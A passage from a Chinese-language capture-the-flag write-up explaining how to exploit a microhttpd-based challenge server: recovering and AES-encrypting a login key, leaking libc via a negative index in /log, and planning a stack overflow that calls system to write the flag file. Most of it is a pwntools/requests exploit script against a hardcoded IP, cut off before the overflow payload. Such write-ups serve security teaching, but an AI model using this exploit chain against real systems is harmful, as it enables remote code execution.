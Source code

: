 <img src="/assets/ycb2025/test_decrypt.png" width="70%">

接下来思路就很清晰了，先使用`/login.html`获取`KEY`，然后将`KEY`加密后用来登录`/login`，
再使用`/work`预存一条shell指令，接着使用`/log`接口泄露libc和预存指令的地址，
最后使用`/work`打栈溢出，调用`system`执行预存的指令。

由于起的方式是microhttpd，因此不能直接调用`system("/bin/sh")`，因为标准输入输出都没有连接到socket上。
使用重定向好像也不行，从头构造一个MHD请求也很麻烦。最后选择将文件写入到当前目录下（如`work.html`），
随后再发一条请求获取文件内容即可。

## EXPLOIT

```python
from pwn import *
from aes import aes_encrypt_block
import re
import sys
import requests

context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
IP = '45.40.247.139'
PORT = 25642
URL_BASE = f'http://{IP}:{PORT}'
LIBC = './libc-2.31.so'

# Get decrypted key
response = requests.get(f'{URL_BASE}/login.html')
match = re.search(r'<strong>([a-z]+)</strong>', response.text)
assert match
rand_key = match.group(1)
info(f'Retrieve random key: {rand_key}')

# Encrypt the key
cipher = aes_encrypt_block(rand_key.encode(), b'0123456789ABCDEF').hex()
info(f'Try this cipher: {cipher}')

# Login the system
response = requests.post(f'{URL_BASE}/login', data=f'ciphertext={cipher}')
assert response.status_code == 200

# Now test if the key is right and leak libc
response = requests.post(f'{URL_BASE}/log', data='index=-173')
if response.status_code == 401:
    warn('Unable to log in!')
    sys.exit(1)
assert response.status_code == 200
match = re.search(r'<pre>(0x[a-f0-9]+)</pre>', response.text)
assert match

libc = ELF(LIBC)
libc_base = int(match.group(1), 16) - libc.symbols['malloc']
success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
libc.address = libc_base

if len(sys.argv) > 1 and sys.argv[1] == 'next':
    # next stage: print flag in work.html
    response = requests.get(f'{URL_BASE}/work.html')
    assert 'DASCTF' in response.text
    success(f'Flag is: {response.text}')
    sys.exit(0)

# Before attack, draft a RCE command first
cmd = 'cat /flag > work.html;'
```